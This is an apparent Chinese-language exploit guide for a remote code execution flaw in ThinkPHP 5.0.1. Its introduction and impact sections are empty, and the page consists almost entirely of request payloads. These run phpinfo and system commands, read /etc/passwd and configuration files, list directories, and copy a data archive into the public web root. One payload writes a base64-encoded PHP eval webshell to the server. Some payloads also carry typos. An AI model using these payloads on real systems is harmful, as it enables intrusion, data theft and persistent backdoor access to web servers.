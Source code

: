 # Thinkphp 5.0.1

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、判断是否存在漏洞

poc1


```bash
http://wwww.com/public

s=phpinfo()&_method=__construct&filter=assert
_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1
```

poc2


```bash
http:/xxxx.com/?s=index/index/index

s=ipconfig&_mehthod=__construct$method=&filter[]=system
```

**2、深入利用**

使用post提交

1、使用assert函数


```bash
s=phpinfo()&_method=__construct&filter=assert
```

2、include函数，可以根据此函数查看一些文件及其配置


```bash
s=include("/etc/passwd")&_method=__construct&filter=assert
```

3、file_put_contents函数，可以直接写入文件


```bsah
s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert
```

4、读取文件


```bash
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess
```


```bash
s=include("../application/.htaccess")&_method=__construct&filter=assert

//ps:如果不加.. 请加上完整路径
```

5、var_dump函数，可以查看该路径下的文件，文件夹


```bash
s=var_dump(scandir('../application/'))&_method=__construct&filter=assert
```

6、复制文件


```bash
s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=assert
```